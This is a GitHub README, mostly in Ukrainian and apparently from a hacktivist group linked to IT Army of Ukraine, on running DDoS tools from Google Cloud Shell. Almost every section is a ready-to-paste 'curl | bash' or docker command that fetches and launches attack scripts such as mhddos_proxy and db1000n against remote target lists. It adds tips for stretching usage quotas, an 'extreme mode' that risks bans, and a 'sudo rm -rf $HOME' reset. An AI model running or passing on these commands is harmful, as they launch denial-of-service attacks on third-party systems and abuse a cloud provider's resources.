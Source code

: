 # [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!                                                                                 **| [English version](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/blob/main/README-EN.md)**
#    
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### з ПК та смартфонів (*зі всього, що має браузер*;)
#
#### Браузерний спосіб (*підходить для використання від 1 до 20 акаунтів з одного ПК, якщо більше [Вам сюди](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• **Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.**    
:exclamation:• Враховуйте, що встановлені **тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та від 10 до 50 годин у ефемерному режимі** (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще до 50 годин використання на поточний тиждень. Або навпаки, краще починати з ефемерного режиму*)    
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях можна вимкнути статистику використання.    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
### Стабільні сеанси (*90%*)
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.7" --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest -c https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7.lst -t 3000 --vpn 1 --http-methods GET --rpc 500
```
:white_check_mark: **Команда для встановлення та запуску db1000n** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
:white_check_mark:**Команда для встановлення та запуску db1000n** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" --rm -it --pull always ghcr.io/arriven/db1000n
```
:white_check_mark:**Команда для встановлення та запуску mhddos_proxy** *тільки проксі*  (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m-proxy_only.sh | bash
```
:white_check_mark:**Команда для встановлення та запуску UA-Cyber-SHIELD** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" ghcr.io/opengs/uashield:master --workers=256 --withProxy=true
```
#
#
### Тести/допрацювання/експерименти. 
**Нестабільні сеанси, перериваються** (потрібно часто перевіряти)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Розділений термінал (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (команди mhddos_proxy без параметрів)
 :exclamation: **Атаки виходять потужні але короткі + висока ймовірність отримати бан** (*бан зазвичай тимчасовий і стосується тільки доступу до GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
